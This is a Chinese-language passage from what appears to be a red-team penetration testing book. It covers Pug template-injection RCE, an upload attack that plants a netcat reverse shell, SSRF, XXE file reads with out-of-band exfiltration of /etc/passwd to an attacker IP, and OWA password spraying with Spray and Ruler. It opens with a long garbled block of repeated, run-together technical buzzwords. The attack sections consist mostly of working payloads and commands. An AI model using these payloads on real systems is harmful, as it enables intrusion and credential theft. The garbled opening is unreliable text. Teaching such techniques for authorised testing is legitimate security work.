网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSA

### 查找代码执行函数

*   从之前的请求中，我们可以看到`global.process`中的所有对象，以及一个名为 "process" 的对象。接下来，我们需要在`global.process`中识别有趣的对象：

*   `for val, index in global.process`:
    *   `p = index`

*   URL 编码：%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%20%69%6e%20%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%0a%20%20%70%3d%20%69%6e%64%65%78

*   我们选择了 "process" 作为可用的方法之一，因为我们会用它来触发 'require'。你可以采用试错法来尝试不同的方法进行遍历：
    *   `for val, index in global.process.mainModule`
    *   `p = index`

*   URL 编码：%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%20%69%6e%20%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%0a%20%20%70%3d%20%69%6e%64%65%78



### 远程代码执行

*   发送此最终载荷，我们应该能在`global.process.mainModule`中看到 "require" 函数。我们现在可以通过设置`require`为导入 'child_process'，并使用`.exec`执行远程代码（RCE）：
    *   `- var x = global.process.mainModule.require`
    *   `- x('child_process').exec('cat /etc/passwd >> /opt/web/chatSupportSystems/public/accounts.txt')`
    *   URL 编码：%0a%2d%20%76%61%72%20%78%20%3d%20%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%20%0a%2d%20%78%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%20%3e%3e%20%2f%6f%70%74%2f%77%65%62%2f%63%68%61%74%53%75%70%70%6f%72%74%53%79%73%74%65%6d%73%2f%70%75%62%6c%69%63%2f%61%63%63%6f%75%6e%74%73%2e%74%78%74%27%29

*   在上例中，我们像在 JavaScript 中定义变量 "x" 一样定义它，但行首的破折号表示未缓冲输出（隐藏）。我们使用全局对象及其所需的模块最终获取 'require'，使我们能够使用 'child_process'.exec 来运行系统命令。

*   我们将`/etc/passwd`的内容输出到 Web 公共根目录，这是唯一拥有写入访问权限的目录（由应用程序创建者设计），允许用户查看内容。我们也可以进行反向 Shell 或任何其他允许的系统命令。

*   我们可以看到`http://chat:3000/accounts.txt`将包含来自 Web 服务器的`/etc/passwd`的内容。

*   使用此方法对系统进行完整的 RCE 并获取 Shell 控制。



现在，能否自动化这个过程？当然可以。名为 Tplmap (https://github.com/epinna/tplmap) 的工具运行方式类似于 SQLmap，它会尝试所有模板注入的不同组合：

*   `cd /opt/tplmap`
*   `./tplmap.py -u "http://chat:3000/ti?user=*&comment=asdfasdf&link=" `



参考：

*   `http://blog.portswigger.net/2015/08/server-side-template-injection.html`
*   `https://hawkinsecurity.com/2015/12/13/rce-via-spring-engine-ssti/`

## JavaScript 与远程代码执行 (RCE)

RCE 是我们每次进行渗透测试和评估时都在寻找的问题。虽然 RCE 可能出现在任何地方，但它们最常见于允许上传的地方，例如：上传 Web Shell、Exploit 如 Imagetragick (https://imagetragick.com/)、Office 文件的 XXE 攻击、目录穿越上传以替换关键文件等。

传统上，我们可能会尝试寻找一个上传区域和一个我们可以利用的 Shell。这里有一份关于不同类型 Web Shell 的出色列表：https://github.com/tennc/webshell。请注意，我并未对任何这些 Shell 进行验证——请自行承担使用风险。我在互联网上找到了很多 Web Shell，其中一些包含了……

### 针对支持上传功能的易感 Chat 应用进行攻击

在我们的实验室中，我们将对一个 Node 应用程序执行 RCE 攻击。示例中，有一个文件上传功能，允许上传任何文件。不幸的是，对于 Node，我们不能像在 PHP 中那样通过 Web 浏览器调用文件来执行文件。因此，在这种情况下，我们将使用动态路由端点，尝试渲染 Pug 文件的内容。错误在于端点将读取文件的内容，假设它是 Pug 文件，因为默认目录存在于 Views 目录中。路径遍历和本地文件读取漏洞也存在于此端点。



在上传过程中，文件处理模块会将文件名重命名为一个随机字符字符串，没有扩展名。在页面的上传响应内容中，存在上传文件的服务器路径位置。使用这些信息，我们可以使用`/drouting`来执行模板注入以实现 RCE。

既然我们知道底层应用程序是 Node（JavaScript），我们可以上传什么载荷以供 Pug 执行？让我们回到之前使用过的简单例子：

*   首先，将变量赋值给 require 模块
    *   `- var x = global.process.mainModule.require`

*   使用`child_process`模块使我们能够访问操作系统功能，运行任何系统命令：
    *   `-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')`

### RCE Upload 攻击

*   访问`http://chat:3000`并使用任何有效账户登录
*   上传带有以下信息的文本文件。在 Pug 中，破折号表示执行 JavaScript。
    *   `- var x = global.process.mainModule.require`
    *   `-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')`

*   查看 Burp 中上传文件的请求和响应。你将注意到响应 POST 请求中包含上传文件的哈希值以及对 drouting 的引用。





*   在此模板代码中，我们将`require`函数赋值给`child_process.exec`，这允许我们在操作系统级别运行命令。此代码将导致 Web 服务器连接到我们在`[Your_IP]`上运行的监听器（端口 8888），并允许我们在 Web 服务器上获取 Shell。

*   在攻击机终端中，启动 netcat 监听器以供 Shell 回连：
    *   `nc -l -p 8888`

*   我们通过运行端点`/drouting`来激活代码。在浏览器中，访问你从文件上传响应中恢复的文件哈希。drouting 端点指定 Pug 模板并将其渲染。幸运的是，我们上传的 Pug 模板包含我们的反向 Shell。
    *   在浏览器中，使用你的文件访问 drouting 端点。我们使用目录穿越 "../" 进入上传文件夹（包含恶意文件）：
        *   `/drouting?filename=../uploads/[YOUR FILE HASH]`

*   回到监听 8888 的终端，与你的 Shell 进行交互！



## 服务器端请求伪造 (SSRF)

服务器端请求伪造 (SSRF) 是那些我认为通常被误解的漏洞之一，而且在术语上经常与跨站请求伪造 (CSRF) 混淆。虽然这种漏洞已经存在了一段时间，但很少被讨论，尤其是考虑到其严重的后果。让我们看看它到底是什么以及为什么。

服务端请求伪造 (SSRF) 通常被滥用来获取本地系统访问权限、进入内部网络，或进行横向移动（pivoting）。理解 SSRF 的最佳方式是看具体实例。假设你有一个公开 Web 应用，允许用户通过 URL 上传个人资料图片。你登录后，进入个人资料页面，点击从 Imgur（公共图片托管服务）更新图片的按钮。你提供图片 URL（例如：`https://i.imgur.com/FdtLoFI.jpg`）并提交。接下来发生的是，服务器创建一个新的请求，访问 Imgur 网站，获取图片（可能会进行图像尺寸调整，如 `imagetragick` 等），将其保存到服务器，并发送成功消息给用户。正如所见，我们提供了 URL，服务器使用该 URL 获取图片并上传至其数据库。

我们最初提供的 URL 用于从外部资源获取个人资料图片。但是，如果将该图片 URL 指向`http://127.0.0.1:80/favicon.ico`会怎样？这将告诉服务器不要像访问 Imgur 那样操作，而是从本地主机 Web 服务器（即自身）抓取`favicon.ico`。如果我们能够获得 200 响应消息或将本地主机 favicon 设为我们个人资料图片，我们就可能拥有一种潜在的 SSRF 漏洞。

由于 80 端口可以工作，如果我们尝试连接到`http://127.0.0.1:8080`（仅本地主机可访问的端口），会发生什么？这变得很有意思。如果我们能获取完整的 HTTP 请求/响应，并向本地 8080 端口发起 GET 请求，假设我们发现一个存在漏洞的 Jenkins 或 Apache Tomcat 服务，会发生什么？即使该端口不是公开监听，我们可能仍能攻破该系统。更有甚者，如果不使用`127.0.0.1`，而是请求内部 IP：`http://192.168.10.2-254`呢？回想那些内部 IP 披露的 Web 扫描发现，当时你将其视为无用信息——现在它们将派上用场，可用于滥用内部网络服务。

SSRF 漏洞能让你执行以下操作：

1.  访问循环回接口的服务
2.  扫描内部网络并与这些服务（GET/POST/HEAD）进行交互
3.  使用`FILE://`读取服务器上的本地文件
4.  滥用 AWS 接口（参考：`http://bit.ly/2ELv5zZ`）
5.  向内部环境横向移动

在以下图表中，我们找到了一个存在漏洞的 SSRF Web 应用，该应用允许我们利用此漏洞：



### XML 外部实体（XXE）

XML（可延伸标记语言）旨在发送/存储易于阅读的数据。XML eXternal Entities (XXE) 是一种针对应用程序 XML 解析器的攻击。XML 解析常见于允许上传文件、解析 Office 文档、JSON 数据，甚至 Flash 类型游戏的 Web 应用中。当允许使用 XML 解析时，不正确的验证可让攻击者读取文件、发起拒绝服务攻击，甚至执行远程代码。从宏观角度看，应用程序有以下需求：1) 解析用户提供的 XML 数据；2) 实体标识符部分必须在文档类型声明 (DTD) 中；3) XML 处理器必须验证/处理 DTD 并解析外部实体。

| 正常 XML 文件 | 恶意 XML |
| :--- | :--- |
| `<?xml version="1.0" encoding="ISO-8859-1"?> <Prod><Type>Book</type><name>THP</name><id>100</id></Prod>` | `<?xml version="1.0" encoding="utf-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><xxx>&xxe;</xxx>` |

如上所示，我们有一个正常的 XML 文件和一个特制的恶意 XML 文件，该文件用于从`/etc/passwd`读取数据。我们将尝试在真实的 XML 请求中注入恶意 XML 请求。

#### XXE Lab

由于特殊的配置需求，针对 XXE 攻击存在不同的 VMware 虚拟机。可从此处获取：
*   `http://thehackerplaybook.com/get.php?type=XXE-vm`

下载后，在 VMware 中打开虚拟机并启动。在登录界面，无需登录，但应能看到系统的 IP 地址。

去浏览器：
*   Proxy 所有流量通过 Burp Suite
*   转到 URL: `http://[IP of your Virtual Machine]`
*   拦截流量并点击 "Hack the XML"

如果你查看加载页面后的 HTML 源代码，会发现一个隐藏字段，通过 POST 请求提交。XML 内容如下：
`<?xml version="1.0" ?><!DOCTYPE thp [<!ELEMENT thp ANY> <!ENTITY book "Universe">]><thp>Hack The &book;</thp>`

其他资源：
*   有关 localhost 编码的内容：
    *   `http://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf`
*   漏洞赏金 - AirBNB
    *   示例：`http://bit.ly/2ELvJxp`

在本例中，我们指定了`it`为 XML 版本 1.0 的 DOCTYPE，指定根元素为`[thp]`，`!ELEMENT`指定为任意类型，`!ENTITY`将书名设置为字符串"Universe"。最后，在我们的 XML 输出中，我们想要打印出从解析 XML 文件读取的实体。

这通常是在发送 XML 数据的应用程序中看到的。由于我们控制 XML 请求中的 XML 数据，我们可以尝试注入我们自己恶意实体。默认情况下，大多数`!ENTITY`解析库支持`SYSTEM`关键字，允许从 URI（包括本地`系统`中的`/etc/passwd`）读取数据。因此，我们可以创建自己的实体来在`/etc/passwd`上构建文件读取。

**原始 XML 文件：**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<Prod><Type>Book</type><name>THP</name><id>100</id></Prod>
```

**恶意 XML：**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<xxx>&xxe;</xxx>
```

由于继承往常的 XXE 攻击方式，我们可以通过提交`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>`来读取服务器上的文件，例如`/etc/passwd`。通过将外部实体(`xxe`) 引用在 XML 元素中（如`<xxx>&xxe;</xxx>`）， XML 解析器会将本地文件内容嵌入到响应中，从而泄露敏感数据。


`<?xml version="1.0" ?><!DOCTYPE thp [<!ELEMENT thp ANY><!ENTITY book "Universe">]><thp>黑客攻击 &book;</thp>`

**恶意 XML：**

```xml
<?xml version="1.0" ?><!DOCTYPE thp [<!ELEMENT thp ANY><!ENTITY book SYSTEM "file:///etc/passwd">]><thp>黑客攻击 &book;</thp>
```

## XXE 实验室 - 读取文件

拦截流量并点击"黑客攻击 XML"以访问`你的虚拟机的 IP`xxe.php  
> 注意：将拦截的流量发送给重传器

修改`"data"`POST 参数为以下内容：

```xml
<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY book SYSTEM "file:///etc/passwd">]><thp>黑客攻击 %26book%3B</thp>
```

请注意，`%26` = `&` 和 `%3B` = `;`。我们需要对反斜杠（`&&`）和分号字符进行百分比编码。

提交流量，然后我们应该能够读取`/etc/passwd`。



## 高级 XXE - 跨带（XXE-OOB）

在前一个攻击（`<thp>`）中，你可以在哪里看到响应？如果我们遇到字符/文件限制或无法获取（`http://[URL]/data`）。


提供远程文档类型定义（DTD）文件以执行跨带（OOB）。DTD 是`xml`文件，定义结构/合法元素。为了简便起见，我们的 DTD 将包含所有负载。


### 我们的新 XXE 攻击阶段

修改`XML`攻击：

- 对于易受攻击的 XML 解析器抓取`DTD`（`http://[URL]/payload.dtd`）：

```php
<!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd">%dtd;
```

新的`"data"`POST 负载将看起来像（HTTP）：

```xml
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY ><!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]><thp><error>%26send%3B</error></thp>
```

我们需要通过创建`file`叫`payload.dtd`来托管此负载。



```bash
gedit /var/www/html/payload.dtd
```

- `<!ENTITY % file SYSTEM "file:///etc/passwd">`
- `<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">`
- `%all;`

DTD 指示易受攻击的服务器读取`/etc/passwd`，然后做出网络请求。我们需要一个`NetCat`监听器：

```bash
nc -l -p 8888
```

运行错误`<b>/var/www/html/xxe.php</b>`行`[20]`。许多 XXE 解析器仅允许某些字符，因此特殊字符会中断。通过 PHP 输入/输出流解决（`http://php.net/manual/en/wrappers.php`）：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%%all;
%25
```

重复修改请求，看到受害者服务器抓取`payload.dtd`，处理它，做出二次网络`request`。


```bash
401 Collect=%File
```

我们现在可以这样做：


### 更多 XXE 负载

- https://gist.github.com/staaldraad/01415b990939494879b4
  - 模糊/XXE-模糊.txt

## 结论

虽然这只是一个示例，但希望你能睁开眼睛，了解如何引入新旧攻击。常见的漏洞扫描器因为特定于语言或框架，所以会错过复杂的漏洞。因此，你需要真正了解工具，才能进行充分审查。

# 4 The Drive：破坏网络

在评估的第二天，我们使用`nmap`扫描了整个网络，但没有运气，无法识别网络应用程序的初始入口点。有点受挫后，我们退后一步，重新审视所有侦察笔记。

- 一旦进入网络，多种手段可以获得更多凭据、渗透点、Active Directory 漏洞以及其他战利品。

在最后的 THP 书籍（`The Drive`部分）中，重点是使用`vulnerability scanners`进行发现。这通过 Metasploit、打印机、Heartbleed、Shellshock、SQL 注入及其他工具完成。由于这是`THP`（`liveoffthe.land/land`）的 Red Team 版本，我们不会重点介绍如何利用这些特定漏洞，而是将重点放在滥用企业环境中的其他功能。

在你集中关注的章节：

- Red Teams
  - 滥用企业基础设施获取凭据，学习内部网络渗透，而无需运行`scanning`。

## 从网络外找到凭据

作为 Red Teamer，找到初始入口点非常复杂，需要资源。许多人制定了疯狂的计划，但最简单的工作通常最有效。

其中一种最基础且存在已久的技术是**暴力破解密码**。但是，作为红队成员（Red Teamers），我们必须懂得如何聪明地使用这些方法。随着公司发展壮大，它们需要更多的技术和工具。对于攻击者而言，这无疑扩大了攻击面。

当公司开始接入互联网时，我们便开始看到针对电子邮件所需的身份验证（例如`Office 365`或`OWA`）、通信（例如`Lync`、`XMPP`、`WebEx`）工具和协作工具（例如`JIRA`、`Slack`、`Hipchat`、`Huddle`），以及其他外部服务（例如`Jenkins`、`CMS sites`、`Support sites`）。这些都是我们要瞄准的目标。

我们尝试攻击这些服务器或服务的理由是，我们在寻找那些针对受害者的`LDAP`或`活动目录`（AD）架构进行身份验证的应用程序。这可能会通过某种 AD 联合、`单点登录`过程或直接指向 AD 实现。我们需要找到一些通用凭据，以便继续下一步的攻击行动。

在侦察阶段，我们发现了大量电子邮件和用户名账号，将利用这些账号发起所谓的**密码喷洒攻击**。我们的目标是各种不同的应用程序，并尝试猜测基本密码，正如我们在现实世界的高级持续性威胁（APT）风格活动中所看到的那样（**US-CERT 文章**：`http://bit.ly/2qyB9rb`）。

### 为什么要测试针对不同外部服务的身份验证？

- 某些身份验证源不记录来自外部服务登录尝试的日志。
- 虽然我们看到电子邮件或`VPN`通常需要双因素认证，但面向外部的聊天系统可能没有此要求。
- **密码重复使用**现象非常普遍。
- 有时外部服务在多次错误尝试后不会锁定活动目录账户。

有许多工具可以进行暴力破解，然而我们将专注于介绍其中几个。第一个是来自`Spiderlabs`（`http://bit.ly/2EJve6N`）的工具`Spray`。

虽然`Spray`的使用稍微复杂一些，但我非常喜欢它喷洒服务的概念。例如，它支持`SMB`、`OWA`和`Lync`（微软聊天）。

若要使用`spray`程序，请指定以下内容：

- `spray.sh -owa <目标 IP> <用户名列表> <密码列表> <锁定周期内的尝试次数> <分钟数内的锁定期限> <域名>`

正如下面的示例所示，我们在不存在的`cyberspacekittens`上针对一个假的`OWA`邮件服务器运行了它。当处理到用户`peter`及其密码为`Spring2018`时，程序找到了一次成功的尝试（可以通过数据长度看出）。

我常遇到的一个问题涉及该尝试哪些密码，因为在锁定账户之前只能获得一定次数的密码尝试机会。对此没有标准答案，这很大程度上取决于公司情况。

我们过去曾可以使用像`Password123`这样非常简单的密码，但现在发现这类密码已变得很少见。通常能给我们至少一个有效凭据的密码包括：

- **季度** + **年份**
- **本地运动队名称** + **数字**
- **查看旧式泄露事件**，找到目标公司的用户并使用方法类似的密码
- **公司名称** + **年份/数字/特殊字符**（`!`、`$`、`#`、`@`）

如果我们可以避开注意，我们将以很慢的速度全天候（`24/7`）运行这些扫描程序，以避免触发任何账户锁定。请记住，只需要一个正确的**密码**就能让我们获得敲门砖！



这是一个快速脚本，利用`Curl`对`OWA`进行身份验证。

配置`Spray`非常简单，并且可以轻松地为其他应用程序进行调整。您需要做的是捕获一次密码尝试的`POST`请求（可以在`Burp Suite`中完成此操作），复制所有请求数据并将其保存到文件中。对于将暴力破解的任何字段，需要提供字符串`"sprayuser"`和`"spraypassword"`。

例如，在我们的案例中，`post-request.txt`文件看起来如下：

```http
POST /owa auth.ova HTTP/1.1
Host: mail.cyberspacekittens.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html, application/xhtml+xml, application/xml q 0.9, q 0.8
Accept-Language: en-US, en q 0.5
Accept-Encoding: gzip, deflate
Referer: https://mail.cyberspacekittens.com/owa/auth/logon.aspx?replaceCurrent=1&url=https%3a%2f%2fmail.cyberspacekittens.com%2fowa%2f
Cookie: ClientId=VCSJKT0FKWJDYJZIXQ; PrivateComputer=true; PBack 0
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
destination=https%3A%2F%2Fcyberspacekittens.com%2Fowa%2F&flags=4&forcedownlevel=0&username=sprayuser@cyberspacekittens.com&password=sprayedpassword&passwordText=&isUtf8=1
```

正如前面提到的，另一个使用`spray.sh`的额外优势是它也支持`SMB`和`Lync`。

另一种利用并滥用来自`Spraying`结果的工具叫做`Ruler`（`https://github.com/sensepost/ruler`）。`Ruler`是由`Sensepost`编写的一种工具，允许您通过与`MAPI/HTTP`或`RPC/HTTP`协议交互来操作`Exchange`服务器。

虽然我们主要将讨论如何使用`Ruler`进行暴力破解和信息收集，但该工具还支持一些持久性利用攻击，我们将简要涉及这些内容。

我们可以滥用的第一个功能与`Spray`工具有所相似，用于对用户和密码进行暴力破解。`Ruler`会接收用户名和密码列表并尝试查找凭据。它会自动尝试发现必要的`Exchange`配置并寻找凭据。

要运行`Ruler`：

```bash
ruler --domain cyberspacekittens.com brute --users ./users.txt --passwords ./passwords.txt
```

